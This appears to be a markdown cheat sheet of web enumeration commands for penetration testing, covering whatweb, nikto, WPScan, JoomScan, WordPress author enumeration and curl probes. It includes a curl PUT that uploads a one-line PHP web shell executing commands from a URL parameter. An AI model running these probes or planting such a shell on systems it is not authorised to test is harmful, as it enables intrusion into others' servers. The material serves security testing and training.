 * Navigate && robots.txt &&sitemap.xml :smirk:
* Headers
* Source Code

```bash
# Server Version (Vulnerable?)
whatweb -a 1 <URL> #Stealthy
whatweb -a 3 <URL> #Aggresive
webtech -u <URL>

# Nikto
nikto -h http://$ip

# CMS Explorer
cms-explorer -url http://$IP -type [Drupal, WordPress, Joomla, Mambo]

# WPScan (vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)
wpscan --url http://$IP
wpscan --url http://$IP --enumerate vp
wpscan --url http://$IP --enumerate vt
wpscan --url http://$IP --enumerate u
wpscan -e --url https://url.com

# Enum User:

for i in {1..50}; do curl -s -L -i https://ip.com/wordpress\?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}';done

# Joomscan
joomscan -u  http://$IP
joomscan -u  http://$IP --enumerate-components

# Get header
curl -i $IP

# Get options
curl -i -X OPTIONS $IP

# Get everything
curl -i -L $IP
curl -i -H "User-Agent:Mozilla/4.0" http://$IP:8080

# Check for title and all links
curl $IP -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl $IP -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://$IP/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://$IP/test/shell.php

# Simple curl POST request with login data
curl -X POST http://$IP/centreon/api/index.php?action=authenticate -d 'username=centreon&password=wall'

curl -s  http://$IP/fileRead.php -d 'file=fileRead.php' | jq -r ."file"


# Google Dork

site:domain.com intext:user

https://github.com/sushiwushi/bug-bounty-dorks
```